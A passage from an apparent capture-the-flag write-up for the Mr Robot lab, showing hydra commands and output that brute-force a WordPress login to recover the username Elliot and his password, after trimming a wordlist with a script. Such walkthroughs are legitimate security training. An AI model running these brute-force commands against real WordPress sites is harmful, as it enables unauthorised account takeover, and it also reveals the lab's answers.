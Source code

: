 ```
    for line in known_words:
        file.write(line)

print("Done !")
```

After we execute this script, we can notice a big difference between the new generated wordlist and the original file :  
```
attacker@AttackBox:~/Mr_Robot_CTF$ ls -lah fsocity.dic wordlist.txt 
-rw-r--r-- 1 attacker attacker 7,0M 10 janv. 16:20 fsocity.dic
-rw-r--r-- 1 attacker attacker  95K 10 janv. 16:30 wordlist.txt
```

## Bruteforce wordpress usernames

Now, we can use [hydra](https://github.com/vanhauser-thc/thc-hydra) with this new wordlist to find usernames for the wordpress admin panel ! 
First, let's capture the login request using [Burp Suite](https://portswigger.net/burp) :  
![](https://i.imgur.com/nHlg3Iy.jpg)  

We can also see the error message we get when using wrong username :  
![](https://i.imgur.com/q0HRkBQ.jpg)  

Now, we can use this two informations in [hydra](https://github.com/vanhauser-thc/thc-hydra) to bruteforce usernames :  
```
attacker@AttackBox:~/Mr_Robot_CTF$ hydra -L wordlist.txt -p test 10.10.241.169 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.241.169%2Fwp-admin%2F&testcookie=1:Invalid username"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 16:45:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.241.169:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.241.169%2Fwp-admin%2F&testcookie=1:Invalid username
[80][http-post-form] host: 10.10.241.169   login: Elliot   password: test
```

The password is just here for the test, it's not the right password. But now we have the username Elliot ! 

## Bruteforce wordpress password

We can use [hydra](https://github.com/vanhauser-thc/thc-hydra) again but this time to bruteforce Elliot's password (Remember to change the error message for hydra):  
(The bruteforce will take long to find the right password because it is at the end of the wordlist.. It took more than an hour for me...)
```
attacker@AttackBox:~/Mr_Robot_CTF$ hydra -l Elliot -P wordlist_crop.txt 10.10.241.169 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.241.169%2Fwp-admin%2F&testcookie=1:Incorrect"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 16:48:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:1/p:20), ~2 tries per task
[DATA] attacking http-post-form://10.10.241.169:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.241.169%2Fwp-admin%2F&testcookie=1:Incorrect
[80][http-post-form] host: 10.10.241.169   login: Elliot   password: ER28-0652
```